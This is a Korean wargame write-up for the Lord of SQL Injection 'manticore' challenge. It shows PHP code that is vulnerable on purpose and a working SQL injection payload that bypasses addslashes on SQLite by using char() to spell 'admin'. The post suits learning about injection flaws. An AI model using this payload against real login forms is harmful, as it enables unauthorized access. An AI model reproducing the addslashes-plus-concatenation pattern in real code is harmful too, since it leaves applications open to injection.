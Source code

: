 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - manticore 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


`SQLite`의 두 번째 문제이다.  

이 번 문제도 간단한 편이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from member where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/manticore.db");
  $_GET['id'] = addslashes($_GET['id']);
  $_GET['pw'] = addslashes($_GET['pw']);
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("manticore");
  highlight_file(__FILE__);
?>
```

언뜻 보면 이 전 문제랑 동일해 보인다.  

그런데 이번에는 `addslashes`가 추가되어 있다.  

처음엔 이걸 어떻게 풀어야 하나 고민했었다.  

그러다 문득 든 생각이 `SQLite`에서 `\'`를 입력했을 때 과연 이걸 `\`와 `'`로 인식할까 혹은 `'`를 문자열 안에서 쓰기 위해 앞에 `\`를 삽입 한 것으로 인식할까였다.  

그래서 인터넷에서 `SQLite`를 테스트 할 수 있는 사이트를 찾아 직접 실행 해 보았다.  

> [https://sqliteonline.com/](https://sqliteonline.com/)

위의 사이트에서 아래와 같이 입력 해 보았다.  

```
SELECT '\'';
```

만약 `\'`를 `\`와 `'`로 인식한다면 오류가 날 것이고, `'`를 입력하기 위해 `\`를 사용한 것으로 인식한다면 `'`를 출력 할 것이다.  

그 결과 아래와 같이 오류가 나는 것을 알 수 있었다.  

```
Uncaught Error: unrecognized token: "'\'';"
```

그리고 아까 입력 한 쿼리에서 `'`를 하나 빼면 정상적으로 `\`가 출력되었다.  

즉, `addslashes`를 통해 `'` 앞에 `\`를 추가하더라도, 정상적으로 문자열을 닫을 수 있다.  

그래서 문제를 풀기 위해 아래와 같은 쿼리를 사용했다.  

```
?id=a' or id=char(97,100,109,105,110) -- &pw=asd
```

완성되는 쿼리는 다음과 같다.  

```
select id from member where id='a\' or id=char(97,100,109,105,110) -- ' and pw='asd'
```

`where`절만 살펴보면, 앞의 `id='a\'`는 `id`가 `a\`인 값을 찾는 조건이 된다.  

`id`가 `a\`인 값은 없을 것이므로 `or` 뒤의 조건을 실행한다.  

`id=char(97,100,109,105,110)`인데, `id='admin'`을 넣으면 `addslashes` 때문에 `id=\'admin\'`이 되기 때문에 `char()`을 사용해 `id`가 `admin`인 행을 추출하도록 했다.  

이 후 뒤의 부분은 주석처리 되어 실행하지 않을 것이다.  

위의 쿼리를 넘겨준 결과 문제를 풀 수 있었다.  

```php
-------------------------------------------------------------------------------------------------
query : select id from member where id='a\' or id=char(97,100,109,105,110) -- ' and pw='asd'
-------------------------------------------------------------------------------------------------

MANTICORE Clear!
<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/manticore.db");
  $_GET['id'] = addslashes($_GET['id']);
  $_GET['pw'] = addslashes($_GET['pw']);
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("manticore");
  highlight_file(__FILE__);
?>
```

`MANTICORE Clear!`
